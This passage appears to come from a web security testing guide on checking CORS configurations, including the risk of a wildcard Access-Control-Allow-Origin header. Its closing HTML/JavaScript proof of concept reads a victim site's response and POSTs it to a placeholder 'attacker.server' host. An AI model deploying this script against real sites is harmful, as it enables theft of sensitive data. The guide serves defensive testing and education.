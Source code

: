 - Identify endpoints that implement CORS.
- Ensure that the CORS configuration is secure or harmless.

## How to Test

A tool such as [ZAP](https://www.zaproxy.org) can enable testers to intercept HTTP headers, which can reveal how CORS is used. Testers should pay particular attention to the origin header to learn which domains are allowed. Also, in some cases, manual inspection of the JavaScript is needed to determine whether the code is vulnerable to code injection due to improper handling of user supplied input.

### CORS Misconfiguration

Setting the wildcard to the `Access-Control-Allow-Origin header` (that is, `Access-Control-Allow-Origin: *`) is not secure if the response contains sensitive information. Although it cannot be used with the `Access-Control-Allow-Credentials: true` at the same time, it can be dangerous where the access control is done solely by the firewall rules or the source IP addresses, other than being protected by credentials.

#### Wildcard Access-Control-Allow-Origin

A tester can check if the `Access-Control-Allow-Origin: *` exists in the HTTP response messages.

```http
HTTP/1.1 200 OK
[...]
Access-Control-Allow-Origin: *
Content-Length: 4
Content-Type: application/xml

[Response Body]
```

If a response contains sensitive data, an attacker can steal it through the usage of XHR:

```html
<html>
    <head></head>
    <body>
        <script>
            var xhr = new XMLHttpRequest();
            xhr.onreadystatechange = function() {
                if (this.readyState == 4 && this.status == 200) {
                    var xhr2 = new XMLHttpRequest();
                    // attacker.server: attacker listener to steal response
                    xhr2.open("POST", "https://attacker.server", true);
                    xhr2.send(xhr.responseText);
                }
            };
            // victim.site: vulnerable server with `Access-Control-Allow-Origin: *` header 
            xhr.open("GET", "https://victim.site", true);
            xhr.send();
        </script>
    </body>
</html>
```
